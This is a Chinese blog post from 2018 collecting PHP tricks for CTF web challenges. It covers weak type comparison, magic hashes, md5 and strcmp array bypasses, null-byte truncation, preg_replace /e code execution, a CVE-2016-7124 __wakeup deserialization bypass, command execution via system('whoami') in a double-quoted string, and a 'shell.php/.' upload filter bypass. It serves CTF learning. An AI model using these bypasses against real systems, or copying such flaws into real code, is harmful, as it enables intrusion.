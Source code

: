 ```yaml
---
layout:     post
title:      "PHP 各种黑魔法"
subtitle:   ""
date:       2018-04-14 17:40:00
author:     "kuron3k0"
header-img: "img/home-bg-geek.jpg"
tags:
    - PHP
    - CTF
    - WEB
---
```


> 总结了一下关于在CTF中PHP的一些小技巧，今后会不断更新。<br>
> 虽然现在的题目很少会用到了，但知道多点总是没坏处的。


## 弱类型

```php
<?php

//输出 boolean true

$a = 0;
$b = '0asdf';
var_dump($a == $b);


//输出 boolean true

$a = 0;
$b = NULL;
var_dump($a == $b);
?>

```

## 科学记数法

```php
<?php

//输出 boolean true
$a = '0e3543';
$b = '0e1234';
var_dump($a == $b);

?>
```

## 函数
- md5()<br>
<br>
```php
<?php
//http://xxxx?a[]=1&b[]=2
//md5对数组类型hash的时候会返回false
//输出 boolean true
$a = md5($_GET['a']);
$b = md5($_GET['b']);
var_dump($a == $b);

//把md5第二个参数设置为true，会将加密后字符串当成十六进制转换成字符
//输出 'or'6�]��!r,��b
echo md5('ffifdyop',true);

?>
```
- ereg()/eregi()截断<br>

```php
<?php

//http://xxxx?a=abc;
//输出 boolean false
//http://xxxx?a=abc%00;
//输出 boolean true
var_dump(eregi('^[a-z]+$',$_GET[a]));

?>
```

- preg_replace()代码执行<br>

```php
<?php

//pattern里使用参数e导致代码执行
preg_replace('/test/e','phpinfo()','test');

?>
```

- 对parse_url()参数检测的绕过<br>

![](/img/in-post/post-php-trick/parse_url1.png)
*<center>两个斜杠</center>*

![](/img/in-post/post-php-trick/parse_url2.png)
*<center>三个斜杠</center>*

<font color=red size=2 face="黑体">注：在path前面的"/"到达一定数量之后，parse_url会忽略参数</font>

- mt_srand()伪随机数<br>
用`php_mt_seed`即可算出种子
<br>


- is_numeric()十六进制绕过<br>

```php
<?php

var_dump(is_numeric('0xabcd'));
//输出 boolean true

?>
```

- strcmp()绕过<br>

strcmp输入数组作为参数会返回`NULL`<br>
```php
<?php

//http://xxxx?a[]=www
$a=$_GET['a'];
echo strcmp('aaaa',$a).'<br>';
//输出 无（即NULL）
if(strcmp('aaaa',$a)){
    echo 'false!';
}else{
    echo 'success!';
}
//输出 success

?>
```

## 反序列化
- _wakeup()魔术方法的绕过<br>
利用的是`CVE-2016-7124`<br>

```php
<?php

class test{

    public $s = 'secret';

    function __construct(){
        
    }

    function __wakeup(){
        echo 'wakeup'.'<br>';
        $this->s = '';
    }

    function __destruct(){
        echo 'destruct '.$this->s.'<br>';
        
    }
}

$a = new test();
$serial = serialize($a).'<br>'; 
//O:4:"test":1:{s:1:"s";s:6:"secret";}


unserialize($serial);
//输出：
//wakeup
//destruct 
//可以看到反序列化先运行了__wakeup()函数

//但是如果把反序列化中参数的个数调整到比原本类的个数高的话，即可绕过wakeup
//即 O:4:"test":2:{s:1:"s";s:6:"secret";}
unserialize('O:4:"test":2:{s:1:"s";s:6:"secret";}');
//输出： 
//destruct secret
//没有运行wakeup


?>

```

- 双引号里的代码执行

```php
<?php

$a = "${system('whoami')}";

?>
```

## 文件上传

- shell.php/.

上传的文件名带/.的话，php解析器自动忽略掉，从而绕过黑名单<br>